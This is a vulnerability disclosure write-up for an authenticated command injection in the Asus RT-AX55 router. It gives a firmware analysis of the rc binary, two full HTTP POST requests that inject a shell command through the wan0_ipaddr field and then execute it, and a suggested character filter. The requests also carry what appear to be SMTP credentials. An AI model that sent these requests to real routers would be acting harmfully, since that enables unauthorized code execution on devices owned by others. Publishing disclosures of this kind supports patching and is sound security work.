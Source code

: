 # 0x01  Vulnerability Description #

The Asus `RT-AX55` router has a vulnerability in command injection after authentication.

# 0x02  Firmware Analysis #

Firmware download: ：https://dlcdnets.asus.com/pub/ASUS/wireless/RT-AX55/FW_RT_AX55_300438651598.zip?model=RT-AX55
You can extract it directly using binwalk with the option -Me.

# 0x03  Code Analysis #

Analyzing the `sbin/rc` binary file, in the function `FUN_0004d76c`, retrieving the value of `ipsec_force_gen_cert` from the HTTP request parameter `action_script`, and then entering the function `FUN_000c937c`.

![](./img/1.png)

In the function `FUN_000c937c`, the value of `wan0_ipaddr` from nvram is assigned to `local_220`, which is then written to the script `/jffs/ca_files/generate.sh`. Finally, the system function is invoked to execute `/jffs/ca_files/generate.sh`.

![](./img/2.png)

# 0x04  Vulnerability Reproduction #

Set the value of `wan0_ipaddr`(The value of "`wan0_ipaddr`" cannot exceed 15 characters).

request1:

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 541
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/Advanced_VPN_PPTP.asp
    Cookie: clickedItem_tab=0; asus_token=jvnu22Uwa5pxjFVrHWwM3adGIbhXoLE; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=1947294877%40qq.com&PM_SMTP_AUTH_USER=1947294877&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1&fc_disable=1&wan0_ipaddr=`ls>/tmp/888`
    
![](./img//3.png)

Exploit command injection vulnerability.

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 525
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/Advanced_VPN_PPTP.asp
    Cookie: clickedItem_tab=0; asus_token=jvnu22Uwa5pxjFVrHWwM3adGIbhXoLE; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail%3Bipsec_force_gen_cert&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=1947294877%40qq.com&PM_SMTP_AUTH_USER=1947294877&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1

![](./img//4.png)

![](./img//5.png)

# 0x05  Vulnerability Fix #

Filter the characters `backtick ; | & $` `Line Feed` and `double quotation marks` from wan0_ipaddr.
